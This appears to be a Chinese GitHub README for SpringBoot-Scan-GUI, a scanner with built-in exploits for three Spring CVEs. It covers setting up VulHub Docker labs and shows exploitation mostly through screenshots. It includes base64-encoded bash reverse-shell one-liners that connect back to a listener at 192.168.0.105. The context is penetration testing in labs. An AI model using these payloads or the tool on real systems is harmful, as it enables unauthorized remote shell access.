 ![SpringBoot-Scan-GUI](https://socialify.git.ci/13exp/SpringBoot-Scan-GUI/image?font=Bitter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Diagonal%20Stripes&stargazers=1&theme=Dark)

开源工具 [SpringBoot-Scan](https://github.com/AabyssZG/SpringBoot-Scan) 的GUI图形化版本，对你有用的话麻烦点个Star哈哈~

![GUI](https://github.com/AabyssZG/SpringBoot-Scan/raw/main/pic/GUI.png)

**注意：本工具内置相关漏洞的Exp，杀软报毒属于正常现象！**

## Windows使用

```
python3 SpringBoot-Scan-GUI.py
```

也可以直接下载执行release打包好的exe程序

## Linux使用

```
python3 SpringBoot-Scan-GUI-Linux.py
```

或者使用 `wine` 来执行：

```
sudo wine SpringBoot-Scan-GUI.exe
```

## VulHub 漏洞测试环境搭建

```
git clone https://github.com/vulhub/vulhub.git
```

### 安装Docker环境

```
sudo apt-get install docker.io
sudo apt install docker-compose
```

### 搭建CVE-2022-22965

```
cd /vulhub/CVE-2022-22965
sudo docker-compose up -d
```

### 搭建CVE-2022-22963

```
cd /vulhub/CVE-2022-22963
sudo docker-compose up -d
```

### 搭建CVE-2022-22947

```
cd /vulhub/CVE-2022-22947
sudo docker-compose up -d
```

如果报错，自行修改 `.yml` 文件中映射的端口号

## 工具的使用

### 一、CVE-2022-22965

#### VulHub

![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)

**13exp-shell**

![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)

#### 春秋云境

![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)

**内置shell**
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)

**13exp-shell**
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)

**aabysszg-shell**
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)

### 二、CVE-2022-22963

#### VulHub

准备反弹shell：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8888 0>&1`

Kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)

#### 春秋云境

![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)

### 三、CVE-2022-22947

#### VulHub

同样准备反弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
```

编码内容→ `bash -i >& /dev/tcp/192.168.0.105/8889 0>&1`

kali监听对应端口：
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)

**漏洞利用**
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)

#### 春秋云境

![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)

## 项目Star统计

![star](https://starchart.cc/13exp/SpringBoot-Scan-GUI.svg)
